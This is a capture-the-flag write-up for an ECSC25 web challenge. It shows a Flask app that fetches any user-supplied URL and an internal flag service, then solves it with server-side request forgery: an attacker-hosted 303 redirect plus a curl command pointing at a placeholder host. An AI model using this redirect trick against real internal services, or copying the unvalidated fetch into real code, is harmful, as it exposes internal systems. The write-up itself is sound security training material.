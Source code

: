 # GET my POST

> Mr. Mailman, could you GET me that POST?
>
> [https://get-my-post.ecsc25.hack.cert.pl/](https://get-my-post.ecsc25.hack.cert.pl/)
>
> **app.py**
> ```py
> import requests
> from flask import Flask, request, abort
> 
> app = Flask(__name__)
> 
> 
> @app.route('/submit', methods=['POST'])
> def submit():
>     if 'url' in request.json:
>         return requests.post(request.json['url']).content
>     else:
>         abort(404)
> 
> 
> @app.get("/")
> def index():
>     return "You can't connect to this API with your browser. Check the source code."
> 
> 
> assert requests.get("http://internal:5001/flag").content.startswith(b"ecsc")
> 
> if __name__ == "__main__":
>     app.run(port=5000)
> 
> ```
>
> **internal.py**
>
> ```py
> from flask import Flask
> 
> app = Flask(__name__)
> 
> 
> @app.route('/flag', methods=['GET'])
> def flag():
>     return open("flag.txt", 'r').read()
> 
> 
> if __name__ == "__main__":
>     app.run(port=5001)
>
> ```

## Solution
Functions from the `requests` Python module follow redirects by default. A redirect with status code 303 changes the method to GET. Host a simple web app that has a POST endpoint redirecting to `http://internal:5001/flag` and make the bot go there:

```py
from flask import Flask, redirect

app = Flask(__name__)


@app.post('/redir')
def _():
    return redirect('http://internal:5001/flag', 303)


if __name__ == '__main__':
    app.run(host='0', port=80)
```

`$ curl https://get-my-post.ecsc25.hack.cert.pl/submit --json '{"url": "http://YOUR_HOST/redir"}'`

## Flag
`ecsc25{indirect_route}`
